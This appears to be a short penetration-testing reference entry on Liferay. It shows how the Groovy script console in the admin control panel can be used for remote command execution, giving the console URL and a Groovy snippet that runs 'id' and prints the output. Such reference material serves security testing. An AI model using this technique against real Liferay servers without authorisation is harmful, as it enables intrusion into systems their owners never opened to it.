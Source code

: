 ```yaml
---
title: Liferay
category: Software
order: 7
---
```



# RCE from Goovy console

It is possible to achieve os command execution with goovy scripts.

http://localhost/group/control_panel/manage?p_p_id=com_liferay_server_admin_web_portlet_ServerAdminPortlet&p_p_lifecycle=0&p_p_state=maximized&p_p_mode=view&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_mvcRenderCommandName=%2Fserver_admin%2Fview&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_cur=0&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_tabs1=script&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_delta=0

```
def sout = new StringBuilder(), serr = new StringBuilder()
def proc = 'id'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```